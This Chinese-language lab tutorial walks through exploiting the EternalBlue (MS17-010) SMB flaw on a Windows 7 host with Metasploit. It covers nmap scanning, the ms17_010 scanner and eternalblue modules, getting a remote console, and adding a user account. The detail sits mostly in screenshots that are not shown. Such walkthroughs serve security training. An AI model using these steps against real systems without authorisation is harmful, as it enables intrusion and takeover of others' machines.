# 利用永恒之蓝漏洞实施对win7的攻击

-   查询自身IP
    
-   使用nmap进行IP扫描并确定系统类型
    
-   查看主机系统类型并能ping通
    
-   查看数据库状态service postgresql status
    
    -   如果没有打开则启动数据库service postgresql start
    -   再次查看状态 active即可
-   msfdb初始化数据库: msfdb init 需要使用root权限(我这里已经初始化了)
    
-   启动msfconsole
    
    -   查看数据库状态db_status
        
-   搜索ms17_010(永恒之蓝漏洞): search ms17_010
    
-   使用auxiliary/scanner/smb/smb_ms17_010
    
    -   查看需要的命令使用options获取帮助
        
    -   使用set命令设置参数
        
    -   使用run进行执行 发现有漏洞
        
-   使用攻击模块 exploit/windows/smb/ms17_010_eternalblue   (也就是永恒之蓝)
    
    -   查看对应参数
        
    -   设置对应参数
        
    -   进行攻击 得到WIN即可
        
-   获得目标主机控制权限
    -   使用help命令获取命令即解释
        
    -   获得目标主机的控制台 这样就可以操作了
        
    -   乱码解决
        
    -   查看已经有的用户
        
    -   添加用户
        